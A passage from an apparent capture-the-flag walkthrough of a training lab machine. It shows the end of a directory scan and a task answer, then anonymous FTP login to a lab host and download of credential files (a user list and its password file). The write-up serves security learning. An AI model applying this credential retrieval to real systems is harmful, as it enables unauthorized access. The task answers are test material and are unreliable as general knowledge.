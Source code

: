 ```bash
/logout.php (Status: 302)
=====================================================
2022/08/23 20:48:35 Finished
=====================================================
```

Answer: login.php

## Task 10

#### Submit root flag

If we first FTP into the machine with an anonymous account

```bash
ftp 10.129.208.251
Connected to 10.129.208.251.
220 (vsFTPd 3.0.3)
Name (10.129.208.251:th4ntis): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

We can see a list of a file and `get` them to our machine

```bash
ftp> ls
229 Entering Extended Passive Mode (|||47529|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47804|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |****************************************************************************|    33       14.91 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.69 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||49809|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |****************************************************************************|    62        3.11 MiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (1.37 KiB/s)
ftp>
```
